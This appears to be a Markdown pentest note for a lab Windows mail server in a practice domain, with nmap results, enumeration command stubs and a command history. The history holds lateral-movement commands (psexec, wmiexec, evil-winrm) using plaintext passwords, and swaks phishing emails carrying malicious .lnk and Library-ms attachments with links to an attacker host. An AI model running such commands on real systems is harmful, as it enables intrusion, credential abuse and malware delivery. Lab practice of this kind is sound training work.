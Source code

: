 # 192.168.X.189
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.152.189 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
110/tcp  open  pop3          hMailServer pop3d
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```
`sudo nmap -A -T4 -p- 192.168.152.189`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
// 245 246 247 248 249 14 7 191 15 19 20 DC
//249 web vuln upload
// mark somewhere 

psexec with domain admin creds (vau pw)
impacket-psexec relia.com/Administrator:'vau!XCKjNQBv2$'@192.168.148.189


// xfreerdp3 /u:dmzadmin /p:SlimGodhoodMope /v:192.168.204.191
impacket-psexec dmzadmin:SlimGodhoodMope@192.168.204.189
impacket-psexec FILES\Administrator:'vau!XCKjNQBv2$'@192.168.204.189
impacket-psexec michelle:'NotMyPassword0k?'@192.168.204.189
impacket-smbexec michelle:'NotMyPassword0k?'@192.168.204.189
impacket-wmiexec michelle:'NotMyPassword0k?'@192.168.204.189

winrm.py michelle:'NotMyPassword0k?'@192.168.204.189
evil-winrm -i 192.168.204.189 -u 'michelle' -p 'NotMyPassword0k?'


sendemail -t jim@relia.com -u help -m "http://192.168.45.165/test" -s 192.168.194.189 -xu maildmz@relia.com -xp DPuBT9tGCBrTbR -a help.lnk -f maildmz@relia.com


```
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @tools/config.Library-ms --attach @tools/powershell.lnk --server 192.168.204.189 --body @tools/body.txt --header "Subject: Staging Script" -au 'maildmz@relia.com' -ap 'DPuBT9tGCBrTbR'

swaks --auth-user 'maildmz@relia.com' --auth LOGIN --auth-password 'DPuBT9tGCBrTbR' --to jim@relia.com --from maildmz@relia.com --header "Subject: Password" --body "http://192.168.45.186/" --server 192.168.204.189 --attach help.lnk
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @help.lnk --server 192.168.204.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap